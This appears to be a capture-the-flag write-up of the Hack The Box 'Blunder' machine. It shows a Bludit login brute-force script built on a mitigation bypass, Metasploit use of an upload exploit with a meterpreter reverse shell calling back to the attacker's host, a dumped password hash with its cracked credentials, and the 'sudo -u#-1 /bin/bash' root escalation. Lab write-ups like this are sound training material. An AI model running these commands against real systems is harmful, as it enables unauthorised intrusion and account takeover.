

# Blunder


Blunder is an easy box which involved finding a username in a text file on the website, then finding a login brute-force exploit in the CMS allowing us to brute-force with a wordlist generated from the site using CeWl. Then using a metasploit module to get a foothold, once on the box, we find a password hash of another user in the site directory. This user could use a sudo exploit to get root.

# Overview
- Enumeration of the target
- Discovering the fergus user
- Discovering the Bludit brute-force exploit
- Brute-forcing the login with a CeWl wordlists
- Using a metasploit module to gain a foothold
- Finding hugo's password hash in the site folder
- Cracking the hash and switching to hugo
- user.txt
- Using sudo exploit to get root
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~$ nmap -sC -sV 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.191
Host is up (0.032s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.40 seconds
```

We can see FTP and a website. I got connection refused on the ftp server, so let's start by enumerating the website.

## Gobuster

```bash
finlay@kali:~/htb/blunder$ gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 200 -q
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/empty (Status: 200)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
```

We can see a todo.txt file and an admin page, let's see what these contain.


From this we can gather that there is a potential user named `fergus` and that the admin login pages uses the Bludit CMS.

If we look at the source of the page, we can deduce that the website uses Bludit 3.9.2


# Exploitation

## Brute-Forcing the Login

Using searchsploit, we can see exploits for this version:

```bash
finlay@kali:~$ searchsploit bludit 3.9.2
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                                                                                    | php/webapps/48746.rb
Bludit 3.9.2 - Directory Traversal                                                                                                             | multiple/webapps/48701.txt
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The first one can be used to brute-force the login without being stopped. I found this PoC [here](https://rastating.github.io/bludit-brute-force-mitigation-bypass/), to allow for wordlist brute-forcing, I modified the start to this:

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/'
username = 'fergus'
passlist = 'passlist.txt'
f = open(passlist)
content = f.readlines()
wordlist = [x.strip() for x in content]

for password in wordlist:
...
```

We can try using `fergus` as the username, but we still need a password list to use.

We can use a tool called CeWl to create a wordlist using the words from the website.

```bash
finlay@kali:~/htb/blunder$ cewl http://10.10.10.191 -w passlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
finlay@kali:~/htb/blunder$ cat passlist.txt 
the
Load
Plugins
and
...
```

Now we can run the exploit and find out the password:

```bash
finlay@kali:~/htb/blunder$ python brute.py 
[*] Trying: the
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: and
...
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

Now that we know the password, we can use the metasploit module to get a shell.

## Getting a Shell

First, open metasploit and set the exploit.

```bash
finlay@kali:~/htb/blunder$ msfconsole
...
msf5 > use bludit
```

Now we can set the username, password, and the IP address.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
```

Finally, we need to set the payload and the local host.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.248
LHOST => 10.10.14.248
```

And then we can run the exploit and get a meterpreter shell.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.248:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading nQadKsjjpX.png...
[*] Uploading .htaccess...
[*] Executing nQadKsjjpX.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.191:35748) at 2020-10-13 16:48:59 -0400
[+] Deleted .htaccess

meterpreter >
```

Now that we have a shell on the box, we need to gain access to one of the users on the box.

After enumerating the box, I found a password hash in the users.php file in `/var/www/bludit-3.10.0a/bl-content/databases/`

```php
meterpreter > cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

We can use [crackstation](https://crackstation.net/) to crack the hash, or john if you prefer.


Now that we know the password is `Password120`, we can switch to the hugo user.

## User.txt

And we find the flag in hugo's home directory.


# Privilege Escalation

If we do `sudo -l`, we see this:



After Googling this, I found [this](https://www.exploit-db.com/exploits/47502) very simple sudo exploit. All we need to do is run `sudo -u#-1 /bin/bash` to get root.


## Root.txt

And we find the root flag in /root.

